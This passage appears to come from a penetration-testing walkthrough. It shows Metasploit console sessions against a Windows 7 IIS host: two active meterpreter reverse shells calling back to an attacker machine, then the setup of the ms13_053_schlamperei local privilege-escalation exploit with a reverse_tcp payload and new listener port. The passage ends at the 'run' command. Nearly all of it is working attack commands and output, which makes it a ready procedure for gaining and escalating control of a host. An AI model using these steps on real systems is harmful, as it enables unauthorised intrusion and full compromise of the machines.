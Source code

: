 
### Connect the new session 

Background the ASP.NET remote shell session, and connect to the *new* (session 17) Windows binary native session:

    meterpreter > background
    [*] Backgrounding session 16...
    msf exploit(handler) > sessions
    
    Active sessions
    ===============
    
      Id  Type                     Information                         Connection
      --  ----                     -----------                         ----------
      16  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49158 (192.168.0.102)
      17  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49159 (192.168.0.102)



### Attempt privilege Escalation 

Try out some local privesc exploits.

    msf exploit(handler) > use exploit/windows/local/ms13_053_schlamperei 
    msf exploit(ms13_053_schlamperei) > set SESSION 17
    SESSION => 17
    msf exploit(ms13_053_schlamperei) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(ms13_053_schlamperei) > set LHOST 192.168.0.99
    LHOST => 192.168.0.99
    msf exploit(ms13_053_schlamperei) > options
    
    Module options (exploit/windows/local/ms13_053_schlamperei):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION  17               yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.99     yes       The listen address
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 7 SP0/SP1
    
    msf exploit(ms13_053_schlamperei) > set LPORT 5555
    LPORT => 5555
    msf exploit(ms13_053_schlamperei) > run
    